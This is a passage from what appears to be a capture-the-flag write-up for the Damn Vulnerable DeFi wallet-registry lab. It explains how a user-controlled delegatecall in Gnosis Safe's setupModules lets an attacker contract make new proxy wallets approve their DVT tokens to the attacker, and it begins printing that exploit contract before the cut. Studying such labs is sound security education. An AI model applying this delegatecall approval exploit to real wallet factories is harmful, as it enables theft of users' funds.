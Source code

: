 ```sol
            handlePayment(payment, 0, 1, paymentToken, paymentReceiver);
        }
        emit SafeSetup(msg.sender, _owners, _threshold, to, fallbackHandler);
    }
```

It's important to note that within the `setupModules` function, there's a `delegatecall` made to an externally specified address by the user. This feature is intended for setting up the modules used by the wallet. However, it is also out entry point of exploitation.

`ModuleManager.sol` code:
```sol
    function setupModules(address to, bytes memory data) internal {
        require(modules[SENTINEL_MODULES] == address(0), "GS100");
        modules[SENTINEL_MODULES] = SENTINEL_MODULES;
        if (to != address(0))
            // Setup has to complete successfully or transaction fails.
            require(execute(to, 0, data, Enum.Operation.DelegateCall, gasleft()), "GS000");
    }
```

Up until this point, the process of creating a proxy wallet is clear.

```
User
  |
  | (call)
  v
GnosisSafeProxyFactory
  |
  | (call)
  v
GnosisSafeProxy
  |
  | (delegatecall)
  v
GnosisSafe
  |
  | (delegatecall)
  v
External Code
```

We know that when a Gnosis Safe proxy wallet is created, the `WalletRegistry` sends DVT tokens to it. Therefore, our solution would be making the proxy approve us the DVT tokens during the execution of the external code at its creation. The final exploit code would be:

```sol
contract WalletRegistryAttacker {

    address singleton;
    GnosisSafeProxyFactory proxyFactory;
    WalletRegistry registry;
    // The `immutable` here is crucial, without it the delegatecall call would end up calling with caller's
    // storage data, which would fail.
    DamnValuableToken immutable token;

    constructor(address addr1, address addr2, address addr3, address addr4) {
        singleton = addr1;
        proxyFactory = GnosisSafeProxyFactory(addr2);
        registry = WalletRegistry(addr3);
        token = DamnValuableToken(addr4);
    }

    function approve(address addr) public {
        token.approve(addr, 10 ether);
```